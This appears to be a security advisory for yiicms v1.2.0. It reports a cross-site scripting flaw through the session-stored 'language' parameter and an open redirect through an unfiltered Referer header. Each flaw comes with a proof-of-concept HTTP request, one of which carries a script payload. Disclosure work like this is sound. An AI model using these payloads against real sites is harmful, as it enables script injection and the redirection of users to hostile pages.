



yiicms v1.2.0 (latest version)


#### 1.Reflective xss

At `controllers/SiteController.php:57`, param `language` was saved to session. When user browse the main page, the value of `language of session` will display.

poc：

```http
GET /site/language.html?language=123123'"><script>alert(/pwn/)</script> HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: xx
Upgrade-Insecure-Requests: 1


```

Browser main page.






#### 2.Arbitray location redirection

At `controllers/SiteController.php:59`, `referer` was used to redirect without any filter.

poc:

```http
GET /site/language.html?language= HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Referer: http://google.com


```




